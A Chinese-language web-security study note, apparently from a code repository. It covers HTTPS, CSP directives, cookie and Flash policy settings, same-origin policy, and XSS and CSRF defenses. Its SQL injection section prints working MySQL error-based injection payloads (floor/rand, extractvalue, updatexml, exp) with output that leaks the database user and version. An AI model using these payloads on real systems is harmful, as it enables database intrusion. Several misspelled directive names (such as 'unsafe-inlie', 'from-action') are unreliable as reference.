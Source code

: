 # 网络安全

## HTTPS 加密过程

![https](https://user-gold-cdn.xitu.io/2018/1/5/160c5b10d3f27e00?imageView2/0/w/1280/h/960/format/webp/ignore-error/1)
# web 安全

## error based SQL 注入

Mysql 报错注入主要分为以下几类：

* BIGINT 等数据类型溢出
* xpath 语法错误
* concat+rand()+group_by 导致主键重复
* 空间数据类型函数错误

### floor

```
mysql> select * from admin where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

1062 - Duplicate entry 'root@localhost1' for key 'group_key'


mysql> select * from admin where id=1 and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

1062 - Duplicate entry '5.5.531' for key 'group_key'
```

### extracvalue()

```
mysql> select * from admin where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
1105 - XPATH syntax error: '~root@localhost~'


mysql> select * from admin where id=1 and (extractvalue(1,concat(0x7e,(select version()),0x7e)));
1105 - XPATH syntax error: '~5.5.53~'
```

### updatexml()

```
mysql> select * from admin where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
1105 - XPATH syntax error: '~root@localhost~'


mysql> select * from admin where id=1 and (updatexml(1,concat(0x7e,(select version()),0x7e),1));
1105 - XPATH syntax error: '~5.5.53~'
```

### exp()

```
mysql> select * from products where pid=1 and exp(~(select * from(select user())a));
1690 - DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

mysql> select * from admin where id=1 and exp(~(select * from(select version())a));
1690 - DOUBLE value is out of range in 'exp(~((select `a`.`version()` from (select version() AS `version()`) `a`)))'
```

## 常用的 CSP 指令

* default-src
* script-src
* style-src
* img-src
* connect-src
* font-src
* object-src
* media-src
* frame-src
* report-uri
* sandbox
* child-src
* from-action
* frame-ancestors
* plugin-types

## 常用的 CSP 指令值

* \*
* 'node'
* 'self'
* data:
* wwww.baidu.com
* \*.baidu.com
* 'unsafe-inlie'
* 'unsafe-eval'


## Cookies 安全： HTTPOnly 没有设置

在创建 cookie 应用时应该注意启用 HttpOnly 属性。

```java
javax.servlet.http.Cookie cookie = new javax.servlet.http.Cookie(emailCookie; email);
cookie.setHttpOnly(true);
```

不要被 HttpOnly 欺骗进入虚假安全。由于已开发出了多种绕过的机制，因此它并非完全有效。

## Flash 错误配置：过宽的跨域策略

不要将 * 作为 domain 属性的值。而应该提供可信赖的域的显示列表。

## Flash 错误配置：过度自由的自定义标头策略

避免 * 作为 headers 属性的值。而应该提供头文件的显示列表。

下面的 crossdomain.xml 文件会指定头文件的显示列表。


## HTML5：过度宽松的邮件发布策略

请不要将 * 作为目标源的值。相反，请提供一个特定的目标值。

## Header 操作：Cookies

Cookies 型 HTTP 头部操作，HTTP 报头中存在用户输入的字符串，造成 HTTP 响应 

## 同源策略

同源策略是一种约定，它是浏览器最核心也是最基本的安全功能。如果缺少了同源策略，浏览器很容易遭受 XSS、CSRF 等攻击。同源是指协议+域名+端口三者相同。

## xss 防范

* 使用 html 转义
* 对于链接跳转，应该检查其内容，禁止非法协议（比如 javascript）
* 在 onerror, onload, onclick 事件中，注入不受控制代码
* 在 style 属性和标签中，比如（backgroud-image:url("javascript"), expression)
* 使用严格的 Content Security Policy
* HTTP-only Cookie：禁止 JS 读取敏感 Cookie,攻击者完成 XSS 注入后也无法窃取 Cookie

## CSRF 防护

* 阻止不明外域的访问
* 提交时要求附加本域才能获取的信息

## refer policy 的设置

* 在 CSP 设置
* 页面头部增加 meta 标签
* a 标签增加 refferpolicy 属性

## reffer 没有或者不可信

* IE6、7下使用 window.location.href=url 进行界面的跳转，会丢失 reffer
* IE6、7下使用 window.open，也会缺失 reffer
* HTTPS 页面跳转到 HTTP 页面，所有浏览器 reffer 都丢失
* 点击 Flash 上到达另外一个网站的时候，reffer 会比较杂乱，不太可信

## 防范网站被利用

* 严格管理所有上传接口
* 添加 Header X-Content-Type-Options: nosniff 防止黑客上传 HTML 内容的资源被解析为网页
* 对于用户上传的文件，进行转存或者校验。不能直接使用用户填写的图片链接
* 当前用户打开外部链接时，需告知风险

## 哪些 HTTP 头字段无法通过程序修改

https://developer.mozilla.org/zh-CN/docs/Glossary/%E7%A6%81%E6%AD%A2%E4%BF%AE%E6%94%B9%E7%9A%84%E6%B6%88%E6%81%AF%E9%A6%96%E9%83%A8

* Accept-Charset
* Accept-Encoding
* Access-Control-Request-Headers
* Access-Control-Request-Method
* Connection
* Content-Length
* Cookie
* Cookie2
* Date
* DNT
* Expect
* Host
* Keep-Alive
* Origin
* Proxy-
* Sec-
* Referer
* TE
* Trailer
* Transfer-Encoding
* Upgrade
* Via
